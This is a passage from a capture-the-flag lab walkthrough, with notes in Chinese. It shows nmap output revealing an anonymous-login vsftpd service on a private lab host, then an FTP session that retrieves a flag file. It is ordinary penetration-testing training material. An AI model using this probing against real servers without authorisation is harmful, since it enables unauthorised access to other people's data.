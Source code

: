 ### flag2

```
21/tcp    open  ftp        vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.56.102
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              42 Aug 22  2017 FLAG.txt
|_drwxr-xr-x    2 0        0               6 Feb 12  2017 pub
```

ftp服务开启了匿名访问，通过匿名访问下载

```bash
$ ftp 192.168.56.101
Connected to 192.168.56.101.
220 (vsFTPd 3.0.3)
Name (192.168.56.101:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||35098|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              42 Aug 22  2017 FLAG.txt
drwxr-xr-x    2 0        0               6 Feb 12  2017 pub
226 Directory send OK.
ftp> get FLAG.txt
local: FLAG.txt remote: FLAG.txt
229 Entering Extended Passive Mode (|||56985|)
150 Opening BINARY mode data connection for FLAG.txt (42 bytes).
100% |***************************************************************************************************************|    42       16.03 KiB/s    00:00 ETA
226 Transfer complete.
42 bytes received in 00:00 (6.61 KiB/s)

$ cat FLAG.txt
FLAG{Whoa this is unexpected} - 10 Points
```

